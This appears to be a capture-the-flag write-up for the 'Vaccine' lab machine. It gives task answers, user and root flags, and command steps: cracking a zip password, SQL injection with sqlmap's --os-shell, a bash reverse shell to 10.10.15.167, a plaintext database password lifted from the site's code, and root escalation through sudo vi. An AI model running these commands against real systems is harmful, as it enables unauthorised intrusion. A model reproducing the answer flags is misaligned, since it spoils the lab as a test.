 # Vaccine

> Task 1 -  Besides SSH and HTTP, what other service is hosted on this box?

```
ftp
```

> Task 2 - This service can be configured to allow login with any password for specific username. What is that username?

```
anonymous
```

> Task 3 -  What is the name of the file downloaded over this service?

```
backup.zip
```

> Task 4 - What script comes with the John The Ripper toolset and generates a hash from a password protected zip archive in a format to allow for cracking attempts?

```
zip2john
```

> Task 5 -  What is the password for the admin user on the website?

```
qwerty789
```

> Task 6 - What option can be passed to sqlmap to try to get command execution via the sql injection?

```
--os-shell
```

> Task 7 -  What program can the postgres user run as root using sudo?

```
vi
```

> Submit user flag

```
ec9b13ca4d6229cd5cc1e09980965bf7
```

> Submit root flag

```
dd6e058e814260bc70e9bbdef2715849
```

## Process
```
nmap scan - sudo nmap -sS -sV -sC -p- -oA nmap/initial $IP
curl -k -v ftp://$IP/backup.zip -o backup.zip
try to unzip, need a pwd
use zip2john - gen hashes
  ../../../tools/john/run/zip2john backup.zip > zip_hashes
use john with rockyou.txt
  ../../../tools/john/run/john --wordlist=../../../tools/rockyou.txt zip_hashes >> john_output
  ../../../tools/john/run/john --show zip_hashes >> john_output
    741852963
unzip, find hash for admin user, hashcat it
  ../../../tools/hashcat/hashcat.bin -a 0 -m 0 user_hash ../../../tools/rockyou.txt
    qwerty789
login to portal on $IP using `users.txt` admin user
rev shell via sqlmap
  get cookie session id to use (PHPSESSID)
  python3 ../../../tools/sqlmap/sqlmap.py --cookie="PHPSESSID=ju5h1fkn45t11geq1a9svfuhuu" -u "http://${IP}/dashboard.php?search=hi" > sqlmap_output
  python3 ../../../tools/sqlmap/sqlmap.py --cookie="PHPSESSID=ju5h1fkn45t11geq1a9svfuhuu" -u "http://${IP}/dashboard.php?search=hi" --os-shell
  bash -c "bash -i >& /dev/tcp/10.10.15.167/9999 0>&1"
  python spawn, stty and stabalise shell
on box as postgres, cd ~, get user.txt
cd /var/www/html, in dashboard.php is db con string
  $conn = pg_connect("host=localhost port=5432 dbname=carsdb user=postgres password=P@s5w0rd!");
shell keeps dying lol
check can we ssh with pwd?
  we can!
chech what user has for sudo -l
  (ALL) /bin/vi /etc/postgresql/11/main/pg_hba.conf
open vi
  sudo /bin/vi /etc/postgresql/11/main/pg_hba.conf
  in vi then
    :set shell=/bin/sh
    :shell
  now root
    cat /root/root.txt --> dd6e058e814260bc70e9bbdef2715849
```
